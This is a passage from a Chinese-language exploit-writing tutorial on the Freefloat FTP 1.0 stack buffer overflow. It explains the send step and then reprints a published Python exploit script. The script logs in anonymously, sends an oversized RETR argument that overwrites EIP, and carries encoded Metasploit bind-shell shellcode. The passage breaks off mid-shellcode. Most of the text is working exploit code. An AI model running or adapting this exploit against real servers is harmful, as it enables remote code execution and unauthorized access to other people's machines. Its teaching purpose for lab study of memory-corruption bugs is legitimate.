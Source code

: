 ## 发送 exploit

使用伯克利套接字 API，我们将创建一个到我们目标主机 21 端口的 TCP 连接。如果连接成功，我们将通过发送匿名的用户名和 密码的到了主机的认证。最后我们将发送 FTP 命令“RETR”紧接着是我们的碰撞变量。由于受影响的程序没有正确的过滤用户的输入，这将导致堆栈的缓冲区溢出覆盖了 EIP 寄存器允许我们的程序直接跳到并执行我们的 Shellcode 代码。

```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((target, 21))
except:
    print "[-] Connection to "+target+" failed!"
    sys.exit(0)
print("[*] Sending " + 'len(crash)' + " " + command +" byte crash...")
s.send("USER anonymous\r\n")
s.recv(1024)
s.send("PASS \r\n")
s.recv(1024)
s.send("RETR" +" " + crash + "\r\n")
time.sleep(4) 
```

## 整合整个 exploit 脚本

把所有的代码整合在一起，我们有 Craig Freyman 发布的原始的 exploit。

```
#!/usr/bin/Python
# coding=UTF-8

#Title: Freefloat FTP 1.0 Non Implemented Command Buffer Overflows
#Author: Craig Freyman (@cd1zz)
#Date: July 19, 2011
#Tested on Windows XP SP3 English
#Part of FreeFloat pwn week
#Vendor Notified: 7-18-2011 (no response)
#Software Link:http://www.freefloat.com/sv/freefloat-ftp-server/freefloat-ftp-server.php

import socket, sys, time, struct

if len(sys.argv) &lt; 2:
    print "[-]Usage:%s &lt;target addr&gt; &lt;command&gt;"% sys.argv[0] + "\r"
    print "[-]For example [filename.py 192.168.1.10 PWND] would do the trick."
    print "[-]Other options: AUTH, APPE, ALLO, ACCT"
    sys.exit(0)
target = sys.argv[1]
command = sys.argv[2]
if len(sys.argv) &gt; 2:
    platform = sys.argv[2]
#./msfpayload windows/shell_bind_tcp r | ./msfencode -e x86/shikata_ga_nai -b "\x00\xff\x0d\x0a\x3d\x20"
#[*] x86/shikata_ga_nai succeeded with size 368 (iteration=1)
shellcode = ("\xbf\x5c\x2a\x11\xb3\xd9\xe5\xd9\x74\x24\xf4\x5d\x33\xc9"
    "\xb1\x56\x83\xc5\x04\x31\x7d\x0f\x03\x7d\x53\xc8\xe4\x4f"
    "\x83\x85\x07\xb0\x53\xf6\x8e\x55\x62\x24\xf4\x1e\xd6\xf8"
    "\x7e\x72\xda\x73\xd2\x67\x69\xf1\xfb\x88\xda\xbc\xdd\xa7"
    "\xdb\x70\xe2\x64\x1f\x12\x9e\x76\x73\xf4\x9f\xb8\x86\xf5"
    "\xd8\xa5\x68\xa7\xb1\xa2\xda\x58\xb5\xf7\xe6\x59\x19\x7c"
    "\x56\x22\x1c\x43\x22\x98\x1f\x94\x9a\x97\x68\x0c\x91\xf0"
    "\x48\x2d\x76\xe3\xb5\x64\xf3\xd0\x4e\x77\xd5\x28\xae\x49"
    "\x19\xe6\x91\x65\x94\xf6\xd6\x42\x46\x8d\x2c\xb1\xfb\x96"
    "\xf6\xcb\x27\x12\xeb\x6c\xac\x84\xcf\x8d\x61\x52\x9b\x82"
    "\xce\x10\xc3\x86\xd1\xf5\x7f\xb2\x5a\xf8\xaf\x32\x18\xdf"
    "\x6b\x1e\xfb\x7e\x2d\xfa\xaa\x7f\x2d\xa2\x13\xda\x25\x41"
    "\x40\x5c\x64\x0e\xa5\x53\x97\xce\xa1\xe4\xe4\xfc\x6e\x5f"
```